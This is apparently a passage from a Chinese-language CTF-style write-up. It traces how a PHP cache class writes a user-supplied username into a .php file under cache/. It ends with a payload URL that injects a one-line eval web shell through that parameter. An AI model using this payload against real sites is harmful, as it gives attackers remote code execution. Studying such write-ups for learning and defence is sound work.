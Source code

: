 cache_class.php:

同理`create_cache()`会进到else里，
从而触发`fileUtil::write('cache/'.md5($template).'.php',$content);`
（即`file_put_contents($filename, $content);`）

```php
class cache{
    public static function create_cache($template,$content){
        if(file_exists('cache/'.md5($template).'.php')){
            return true;
        }else{
            fileUtil::write('cache/'.md5($template).'.php',$content);
        }
    }
    public static function get_cache($template){
        return fileUtil::read('cache/'.md5($template).'.php');
    }
    public static function cache_exists($template){
        return file_exists('cache/'.md5($template).'.php');
    }

}
```

file_class.php:

```php
class fileUtil{

    public static function read($filename){
        return file_get_contents($filename);
    }

    public static function write($filename,$content,$append =0){
        if($append){
            file_put_contents($filename, $content,FILE_APPEND);
        }else{
            file_put_contents($filename, $content);
        }
    }
}
```

综上，`file_put_contents($filename, $content);`中:

1. $filename为：`cache/md5(error).php`

   ![](https://i.loli.net/2021/11/18/KOLuQvlDYUfaW2c.png)

2. $content为：`username`传入的值

payload：

```
/index.php?action=check&username=<?php eval($_POST[1]);?>&password=1
```

